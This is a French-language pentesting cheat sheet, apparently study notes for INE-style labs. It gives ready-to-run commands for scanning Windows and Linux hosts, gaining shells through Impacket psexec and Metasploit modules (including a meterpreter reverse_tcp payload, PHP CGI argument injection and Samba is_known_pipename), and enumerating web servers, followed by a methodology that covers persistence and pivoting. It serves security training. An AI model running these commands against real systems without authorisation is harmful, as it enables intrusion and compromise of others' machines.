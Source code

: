 # 🎯 Pentesting Black Box

[← Retour à la table des matières](../README.md)

## Windows Black Box

### Scan initial et énumération
```bash
# Scan Nmap complet pour Windows
nmap -T4 -PA -sC -sV -p- targetIP -oX nmap

# Énumération SMB détaillée
enum4linux -a targetIP
smbclient -L //targetIP
smbmap -H targetIP
```

### Attaques SMB avec credentials
```bash
# Une fois les credentials SMB obtenus
# Obtenir un shell avec PSExec (Impacket)
python3 /usr/share/doc/python3-impacket/examples/psexec.py Username@ip

# Alternative avec Metasploit
use exploit/windows/smb/psexec
set RHOSTS targetIP
set SMBUser username
set SMBPass password
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

## Linux Black Box

### Scan et énumération PHP
```bash
# Recherche de vulnérabilités PHP/CGI
nmap --script http-shellshock targetIP
nmap --script http-php-version targetIP

# Exploitation PHP CGI Argument Injection
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS targetIP
set TARGETURI /cgi-bin/php
exploit
```

### Énumération des services locaux
```bash
# Une fois accès obtenu, énumérer les services
netstat -antp
netstat -tuln 127.0.0.1

# Rechercher des services sur localhost uniquement
ss -tlnp | grep 127.0.0.1
```

## Outils et Scripts Spécialisés

### Nmap Scripts Utiles
```bash
# Script shellshock pour CGI
nmap --script http-shellshock --script-args uri=/cgi-bin/vulnerable.cgi targetIP

# Énumération WordPress
nmap --script http-wordpress-enum targetIP

# Utiliser la wordlist de plugins WordPress intégrée
cat /usr/share/nmap/nselib/data/wp-plugins.lst
```

### Nikto pour l'énumération web
```bash
# Scan Nikto détaillé (utile si WPScan ne trouve rien)
nikto -h target.ine.local
nikto -h targetIP -C all

# Avec authentification si nécessaire
nikto -h targetIP -id username:password
```

### Énumération de répertoires
```bash
# Si aucune vulnérabilité évidente, énumérer tous les répertoires
gobuster dir -u http://targetIP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Avec extensions communes
gobuster dir -u http://targetIP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,js

# Fuzzing de fichiers
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://targetIP/FUZZ
```

## Exploitation Samba
```bash
# Exploit Samba is_known_pipename
use exploit/linux/samba/is_known_pipename
set RHOSTS targetIP
set RPORT 445
exploit
```

## Recherche d'Exploits

### Bases de données d'exploits
- [Exploit-DB](https://exploit-db.com/) - Base principale d'exploits
- [Rapid7](https://rapid7.com/) - Vulnérabilités et exploits

### Recherche locale
```bash
# Searchsploit pour recherche locale
searchsploit service_name version
searchsploit -m exploit_id  # Copier l'exploit

# Mise à jour de la base
searchsploit -u
```

## Techniques de Contournement

### Si WordPress sans vulnérabilités évidentes
```bash
# 1. WPScan standard
wpscan --url http://targetIP/wordpress --enumerate p,t,u

# 2. Si rien trouvé, utiliser Nikto
nikto -h http://targetIP/wordpress

# 3. Énumération manuelle des répertoires
gobuster dir -u http://targetIP/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### Énumération exhaustive
```bash
# Si aucune vuln évidente, énumérer TOUT
# Ports, services, répertoires, fichiers, paramètres
nmap -p- -A targetIP
dirb http://targetIP /usr/share/wordlists/dirb/big.txt
```

## Méthodologie Black Box

### Phase 1 : Reconnaissance
1. Scan de ports complet
2. Identification des services
3. Énumération des versions

### Phase 2 : Énumération
1. Services web (répertoires, fichiers)
2. Services réseau (SMB, FTP, SSH)
3. Recherche de credentials par défaut

### Phase 3 : Exploitation
1. Recherche d'exploits publics
2. Test des vulnérabilités communes
3. Exploitation des mauvaises configurations

### Phase 4 : Post-exploitation
1. Élévation de privilèges
2. Persistance
3. Pivoting si réseau interne

## Conseils Pratiques

### Gestion du temps
- Commencer par les services les plus prometteurs
- Ne pas rester bloqué sur un service trop longtemps
- Toujours documenter les trouvailles

### Approche systématique
- Suivre une checklist pour chaque service
- Tester les credentials par défaut
- Vérifier les versions pour exploits connus

### Documentation
- Prendre des captures d'écran
- Noter tous les credentials trouvés
- Maintenir un journal des tentatives
